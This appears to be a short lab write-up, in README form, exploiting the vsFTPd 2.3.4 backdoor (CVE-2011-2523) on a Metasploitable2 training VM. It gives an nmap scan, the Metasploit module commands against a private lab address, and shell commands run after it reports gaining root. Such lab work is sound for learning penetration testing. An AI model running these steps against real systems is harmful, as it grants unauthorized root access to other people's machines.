

# Exploiting vsFTPd 2.3.4 Backdoor

This is a documented proof-of-concept exploit against the vsFTPd 2.3.4 backdoor vulnerability in Metasploitable2 using Kali Linux and Metasploit.

## Target

- **OS**: Metasploitable2
- **Service**: vsFTPd 2.3.4
- **Port**: 21 (FTP)
- **Vulnerability**: Backdoored FTP binary (CVE-2011-2523)

## Exploitation Steps

1. Scan with Nmap:
    ```bash
    nmap -sV -p 21 192.168.56.101
    ```

2. Use Metasploit:
    ```bash
    msfconsole
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS 192.168.56.101
    run
    ```

3. Get a shell on port 6200:
    ```bash
    whoami
    uname -a
    id
    ```

## Outcome

- Gained root shell access to the system
- Screenshot proof included

## Screenshot


